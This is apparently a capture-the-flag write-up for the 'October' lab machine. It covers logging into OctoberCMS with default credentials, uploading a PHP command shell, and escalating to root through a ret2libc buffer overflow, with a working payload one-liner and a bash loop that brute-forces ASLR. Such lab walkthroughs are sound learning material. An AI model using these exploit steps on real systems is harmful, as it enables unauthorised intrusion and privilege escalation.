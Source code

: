 # October

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

We don't need to add anything into the hosts file.

### OctoberCMS

The website was running OctoberCMS and appears to have a default look:

<figure><img src="../../../.gitbook/assets/image (10) (1) (3).png" alt=""><figcaption></figcaption></figure>

Registering an account and trying to do stuff with it was useless and had no functionalities. So instead, we can abuse the fact that OctoberCMS is an open-source project. A quick Google search reveals that the backend of this is at `/backend`:

{% embed url="https://octobercms.com/forum/post/how-do-i-access-the-backend" %}

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

We can use the default credentials of `admin:admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

OctoberCMS has quite a few exploits:

{% embed url="https://www.exploit-db.com/exploits/41936" %}

We can use one of them to upload a `cmd.php5` file to execute on the server, as `php5` is not blocked on the server:

<figure><img src="../../../.gitbook/assets/image (6) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can confirm we have RCE via `curl`.

<figure><img src="../../../.gitbook/assets/image (37) (1) (1).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell is then trivial.

## Privilege Escalation

### Ret2Libc

I ran a LinPEAS scan on the machine, and found this weird SUID binary called `overflw`:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

I opened it up in Ghidra to view what it does:

<figure><img src="../../../.gitbook/assets/image (27) (1) (4).png" alt=""><figcaption></figcaption></figure>

It appears we have a classic BOF expliot to do here. The `strcpy` function is vulnerable, and the buffer is pretty short. Doing a `checksec` reveals that NX is enabled but PIE is disabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this case, we can go for a Ret2Libc attack. First, we find the buffer size:

<figure><img src="../../../.gitbook/assets/image (38) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fixed at 112 it appears (same as length of `local_74`). Now, we can use `ldd` to find the address where `libc` is loaded on the machine:

<figure><img src="../../../.gitbook/assets/image (42) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can simply execute the following commands to get the addresses we need

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

Afterwards, we can use a python one-liner to print the contents of the payload:

{% code overflow="wrap" %}
```python
python2 -c 'print"\x90" * 112 + "\x10\x83\x62\xb7" + "\x60\xb2\x61\xb7" + "\xac\xab\x74\xb7"'
```
{% endcode %}

When run however, it didn't work on the machine. Turns out, the machine itself already had ASLR enabled, and this can be verified in `/proc/sys/kernel/randomize_va_space`. Also, when checking the addresses, it seems to randomly shift each time.

In this case, we can check the **range of addresses which ASLR spans**. In this case, the range of addreses looks rather small since `libc` is loaded at roughly the same location:

```
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
```

So, we can set up a `bash` script to keep looping until we get a successful exploit.&#x20;

{% code overflow="wrap" %}
```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
